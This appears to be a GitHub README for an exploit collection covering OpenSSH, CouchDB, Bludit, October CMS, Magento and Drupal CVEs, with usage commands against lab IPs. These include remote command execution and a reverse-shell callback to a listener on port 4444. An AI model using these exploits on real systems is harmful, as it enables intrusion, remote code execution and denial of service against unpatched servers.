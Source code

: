 # vulnexipy

**Vulnerabilities exploitation examples**

## Examples

CVE-2016-6210 - sshd in OpenSSH before 7.3, when SHA256 or SHA512 are used for user password hashing, uses BLOWFISH hashing on a static password when the username does not exist, which allows remote attackers to enumerate users by leveraging the timing difference between responses when a large password is provided.

```bash
python cve_2016_6210.py --target 10.10.6.17 --usernames users.txt
```
CVE-2016-6515 - The auth_password function in auth-passwd.c in sshd in OpenSSH before 7.3 does not limit password lengths for password authentication, which allows remote attackers to cause a denial of service (crypt CPU consumption) via a long string. 

```bash
python cve_2016_6515.py --target 10.10.6.13 --username root
```

CVE-2017-12635 - Apache CouchDB before 1.7.0 and 2.x before 2.1.1 to submit '_users' documents with duplicate keys for 'roles' used for access control within the database, including the special case '_admin' role, that denotes administrative users.
```bash
python cve_2017_12635 --target 10.10.6.14 -u couchdb -p mysuperpswd
```

CVE-2019-16113 - Bludit 3.9.2 allows remote code execution via bl-kernel/ajax/upload-images.php because PHP code can be entered with a .jpg file name, and then this PHP code can write other PHP code to a ../ pathname.

```bash
python cve_2019_16113.py --url 10.10.6.15 --username admin --password admin --cmd whoami
```

CVE-2017-1000119 - October CMS build 412 is vulnerable to PHP code execution in the file upload functionality resulting in site compromise and possibly other applications on the server.

```bash
python cve_2017_1000119.py --url http://10.10.6.16 -user admin -pswd admin -lhost 10.10.14.16 -lport 4444
```

Magento Community Edition < 1.9.0.1 - Authenticated Remote Code Execution
```bash
python magento_auth_rce.py --url http://10.10.10.112 --user admin --pswd admin
```

CVE-2018-7600 - Drupal before 7.58, 8.x before 8.3.9, 8.4.x before 8.4.6, and 8.5.x before 8.5.1 allows remote attackers to execute arbitrary code because of an issue affecting multiple subsystems with default or common module configurations.
```bash
python cve_2018_7600.py --url http://10.10.10.151 --cmd whoami
```

**For Educational Purposes Only!!!**
**Author takes no responsibility of any damage you cause**
